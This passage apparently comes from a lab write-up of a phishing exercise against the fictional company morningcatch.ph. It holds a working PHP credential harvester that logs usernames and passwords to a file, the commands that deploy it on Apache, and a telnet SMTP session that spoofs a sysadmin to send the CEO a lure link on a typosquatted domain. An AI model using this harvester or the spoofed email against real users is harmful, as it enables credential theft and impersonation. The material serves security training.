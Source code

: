 ###### `form.php`

Therefore the `form.php` needs to:

*  save the form inputs in `creds.txt`,
* redirect to `task-mail`.

```php
<?php

$user = $_POST['_user'];
$pass = $_POST['_pass'];

$f = fopen("creds.txt", "a");

fwrite($f, "$user:$pass\n");

fclose($f);
header("Location: http://mornincatch.ph/mail/task-mail");
die();
?>
```

###### `creds.txt`

The attacker finally creates `creds.txt` and changes its owner to `www-data` (the user running the web server process), so that it can be modified during the execution of the script.

```
sudo cp form.php /var/www/html/mail
sudo touch /var/www/html/mail/creds.txt
sudo chown www-data: /var/www/html/mail/creds.txt
```

The website can then start with Apache.

```
sudo systemctl start apache2
```

Now the website is on, ready to steal some credentials!

#### 1.4. Sending the message

The attacker connects to the SMTP server (identified earlier with `nmap`) using `telnet`. This sequence SMTP commands crafts and sends an email from the system administrator of the company  (Boyd Jenius)  to the CEO (Richard Bourne). The url redirects to the fake login page (hosted on the attacker's machine). 

```bash
telnet morningcatch.ph 25
helo morningcatch.ph
mail from: bjenius@morningcatch.ph
rcpt to: rbourne@morningcatch.ph
data
Subject: Webmail Update

Hello Richard,

We are currently rolling out a new performance configuration for the webmail system to improve security.

Could you please help us test the updated version? Access it at:
http://mornincatch.ph/mail/

Let us know if you encounter any issues, but after the weekend.

Best,
Boyd

```